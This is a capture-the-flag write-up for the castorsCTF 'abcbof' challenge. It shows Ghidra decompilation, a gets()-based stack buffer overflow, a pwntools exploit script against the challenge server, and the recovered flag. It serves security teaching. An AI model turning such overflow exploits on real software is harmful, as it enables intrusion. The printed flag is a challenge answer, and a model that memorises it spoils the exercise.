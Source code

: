 # abcbof

## Description

Author: Lunga

```
nc chals20.cybercastors.com 14424
```

## Analysis

Open the binary with Ghidra and look at `main()`. This one is really simple.

```
undefined8 main(void)

{
  int iVar1;
  char local_118 [256];
  char local_18 [16];
  
  printf("Hello everyone, say your name: ");
  gets(local_118);
  iVar1 = strcmp("CyberCastors",local_18);
  if (iVar1 == 0) {
    get_flag();
  }
  puts("You lose!");
  return 0;
}
```

If `local_18` contains "CyberCastors", then it invokes `get_flag()`. `local_18` is right after our input buffer `local_118`, so all we have to do is overflow the input buffer. Write 256 chars to fill up the input buffer and then "CyberCastors" immediately after that.

## Solution

Try it out locally first.

```
root@kali:~/Downloads# cat flag.txt 
hello
root@kali:~/Downloads# perl -e 'print "A"x256 . "CyberCastors"' | ./abcbof
Hello everyone, say your name: hello
```

Now write up a script to get the real flag from the remote server.

```
root@kali:~/Downloads# cat abcbof-exploit.py 
#!/usr/bin/env python3
from pwn import *
p = remote('chals20.cybercastors.com', 14424)
payload = b'A' * (256)
payload += b'CyberCastors'
p.recvuntil('say your name:')
p.sendline(payload)
p.interactive()
root@kali:~/Downloads# ./abcbof-exploit.py 
[+] Opening connection to chals20.cybercastors.com on port 14424: Done
[*] Switching to interactive mode
 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACyberCastors
castorsCTF{b0f_4r3_n0t_th4t_h4rd_or_4r3_th3y?}[*] Got EOF while reading in interactive
$ 
```

The flag is:

```
castorsCTF{b0f_4r3_n0t_th4t_h4rd_or_4r3_th3y?}
```

